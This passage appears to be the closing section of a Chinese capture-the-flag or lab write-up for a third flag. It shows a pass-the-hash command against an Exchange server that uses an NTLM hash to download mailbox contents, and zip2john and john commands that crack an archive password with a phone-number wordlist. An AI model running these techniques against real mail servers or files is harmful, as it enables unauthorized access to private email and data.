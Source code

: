 ## flag3

最后一个 flag 在邮件里，dump 一下邮件内容 ([https://github.com/Jumbo-WJB/PTH\_Exchange](https://github.com/Jumbo-WJB/PTH_Exchange))

```plain
proxychains python3 pthexchange.py --target https://172xxxxxx/ --username Lumia --password '00000000000000000000000000000000:862976f8b23c13529c2fb1428e710296' --action Download
```

[![](assets/1707954377-51b1bc40d524a47af1a68db27b5228fa.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204173844-3008b504-c341-1.png)

发现了一个压缩包，里面有一个 flag，但需要密码解压。根据邮件内容，密码就是电话号码。尝试使用电话号码解压压缩包并查看里面的内容。

我们已成功提取了电话信息，并将其保存在名为 1.txt 的文件中。然后 John 爆破一下。

```plain
zip2john secret.zip >zip.txt
john --wordlist=1.txt zip.txt
```

这样整个流程就结束了
